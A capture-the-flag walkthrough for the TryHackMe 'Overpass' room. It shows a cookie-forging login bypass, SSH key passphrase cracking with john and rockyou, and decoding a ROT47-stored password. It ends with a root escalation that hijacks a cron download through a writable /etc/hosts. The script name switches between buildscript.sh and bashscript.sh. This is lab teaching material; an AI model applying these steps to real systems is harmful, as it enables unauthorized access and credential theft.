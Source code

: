 ```yaml
---
title: Overpass WalkThrough
permalink: /CTF/overpass
layout: page
tags: TryHackMe
---
```

# Overpass
![front](/images/overpass/front.png)
[https://tryhackme.com/room/overpass](https://tryhackme.com/room/overpass)
 
## Open ports:
	- 22: SSH
	- 80: HTTP
![ports](/images/overpass/ports.png)

## Port 80:
* starting Dirbuster:
	* found /admin 
		* On futhur inspection found the response login.js code
		* On undserstating the code and simply changing the _cookies.set_
		```javascript 
		Cookies.set("SessionToken","Done");
		```
		![cookie](/images/overpass/cookieSet.png)

		* Now on reloading the page:
		![reload](/images/overpass/onreload.png)
		* we find the **ssh key** and save it on out pc.

## Port 22:
```
chmod 600 ssh_key
```
**Username:** James
* while logging in it is asking for passphrase
* So, **ssh2john**
 ```python 
 /usr/share/john/ssh2john.py ssh_key > hash.txt
 john --wordlist=/usr/share/wordlist/rockyou.txt --format=SSH hash.txt
 ```
![cracked](/images/overpass/cracked.png)
* found the passphrase: **james13**

### User Flag:
![uflag](/images/overpass/uflag.png)

## Priviledge Escalation"
* on Looking at the files in out present dir:
	* found .overpass file with encrypted passwd
	```
	,LQ?2>6QiQ$JDE6>Q[QA2DDQiQD2J5C2H?=J:?8A:4EFC6QN.
	```
	* which encrytion is this?
	* Going to https://www.dcode.fr/cipher-identifier 
	![efound](/images/overpass/efound.png)
	* So it is likely to be ROT47
	* After decoding:
	```
	[{"name":"System","pass":"saydrawnlyingpicture"}]
	```
* Uploading lineum.py....
* [+]Starting linpeas.sh
* **under crontab section found**
![cron](/images/overpass/cron.png)
* **Found /etc/hosts** writable
	* change the overpass.thm ip to our <ip>
	* create dir `mkdir -p downloads/src/` 
	* create a `buildscript.sh` inside src folder
	* nano bashscript.sh
	```
	cat /root/root.txt >> /tmp/flag.txt
	```
	* inside victim :
	```
	touch /tmp/flag.txt
	```
	* Now go to www and start
	```
	sudo python -m SimpleHTTPServer 80
	```
	* wait for the victim to connect to your http and run the `bashscript.sh`
	* Go to victim machine `cat /tmp/flag.txt`

### Root Flag:
![root](/images/overpass/root.png)